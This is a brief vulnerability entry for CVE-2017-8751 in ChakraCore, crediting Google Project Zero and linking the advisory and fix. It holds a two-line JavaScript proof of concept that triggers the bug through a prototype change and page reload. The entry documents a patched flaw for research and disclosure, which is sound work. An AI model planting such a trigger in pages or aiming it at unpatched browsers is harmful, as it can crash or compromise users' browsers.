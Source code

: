 # CVE-2017-8751

- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
Object.setPrototypeOf({}, this);
location.reload();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8751)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1339)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/8d89409f076a82ec7bfef5ad4c731e629aecdeae)